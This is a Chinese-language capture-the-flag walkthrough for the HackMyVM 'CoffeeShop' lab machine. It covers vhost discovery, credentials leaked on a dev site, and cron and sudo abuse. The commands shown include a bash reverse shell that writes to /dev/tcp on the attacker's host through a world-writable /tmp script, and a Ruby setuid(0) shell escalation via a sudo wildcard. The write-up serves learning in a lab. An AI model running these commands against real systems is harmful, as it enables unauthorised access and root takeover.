 # CoffeeShop

2025.03.23 https://hackmyvm.eu/machines/machine.php?vm=CoffeeShop

[video](https://www.bilibili.com/video/BV1oVXYYoEcr/?spm_id_from=333.1387.homepage.video_card.click&vd_source=aed2f374c732513d2e535afafb1fd2ec)

## Ip

192.168.5.40

## Scan

```
PORT   STATE SERVICE
22/tcp open  ssh
80/tcp open  http
```

将 midnight.coffee 添加到 hosts。扫描发现 http://midnight.coffee/shop/login.php 登陆页面，但是没测试到注入或者弱密码。

主页上说网站正在建设中，那就再尝试爆破一下 vhost，发现 dev.midnight.coffee 的虚拟主机，访问 http://dev.midnight.coffee 发现用户登陆凭据 developer:developer 用这个凭据登陆 http://midnight.coffee/shop/login.php 发现 ssh 登陆凭据：

```
To login into the server use: tuna:1L0v3_TuN4_Very_Much
```

在 .bash_history 操作历史中发现这个文件/home/shopadmin/execute.sh 同时发现定时任务在执行这个脚本，发现它的内容为：

```
tuna@coffee-shop:~$ cat /home/shopadmin/execute.sh
#!/bin/bash

/bin/bash /tmp/*.sh
```

可以直接获得 root 权限：

```shell
echo '/bin/bash -c "/bin/bash -i >& /dev/tcp/192.168.5.3/8888 0>&1"' > /tmp/reverse.sh; chmod +x /tmp/reverse.sh
```

nc 创建监听，等待 1 分钟得到 shopadmin 权限反弹的 shell，先拿到 user flag：

```
shopadmin@coffee-shop:~$ cat user.txt
DR1NK1NG-C0FF33-4T-N1GHT
```

sudo -l 发现 `(root) NOPASSWD: /usr/bin/ruby * /opt/shop.rb`

ruby 后面跟的星号，可以执行任意的脚本，直接创建一个 rb 脚本：

```
echo 'Process::Sys.setuid(0); exec "/bin/sh"' > /tmp/rb.rb; chmod +x /tmp/rb.rb
sudo -u root /usr/bin/ruby /tmp/rb.rb /opt/shop.rb
```

拿到 root flag:

```
# cat root.txt
C4FF3331N-ADD1CCCTIONNNN
```
